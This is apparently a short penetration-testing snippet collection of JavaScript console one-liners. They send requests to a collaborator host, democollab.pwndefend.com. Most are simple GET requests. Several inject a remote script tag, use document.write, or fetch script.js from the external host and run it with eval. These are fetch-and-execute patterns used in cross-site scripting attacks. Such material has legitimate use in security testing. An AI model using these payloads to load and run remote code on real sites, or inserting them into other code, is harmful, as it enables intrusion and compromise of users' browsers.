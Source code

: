 # javascriptHTTPRequests


# COLLABORATOR URL = "http://democollab.pwndefend.com"
# Load Broswer Console
# enable pasting
# Update URL

Ever need to send client side requests using javascript? no problemo here's some methods you can throw into the console.

Clearly you can make script files or HTML script elements with these as well :)


###############################
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://democollab.pwndefend.com", false ); // false for synchronous request
xmlHttp.send( null );
xmlHttp.responseText;
################################
const Http = new XMLHttpRequest();
const url='http://democollab.pwndefend.com';
Http.open("GET", url);
Http.send();
###############################
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       // Typical action to be performed when the document is ready:
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "http://democollab.pwndefend.com", true);
xhttp.send();
###############################
var script = document.createElement('script');
script.type = 'text/javascript';
script.src = 'http://democollab.pwndefend.com/script.js';
document.head.appendChild(script);
###############################
fetch('http://democollab.pwndefend.com/script.js')
    .then(response => response.text())
    .then(text => eval(text))
    .then(() => { /* now you can use your library */ })
###############################
document.write("<script src='http://democollab.pwndefend.com/script.js'></script>");
###############################
eval(await (await fetch('http://democollab.pwndefend.com/script.js')).text())
###############################
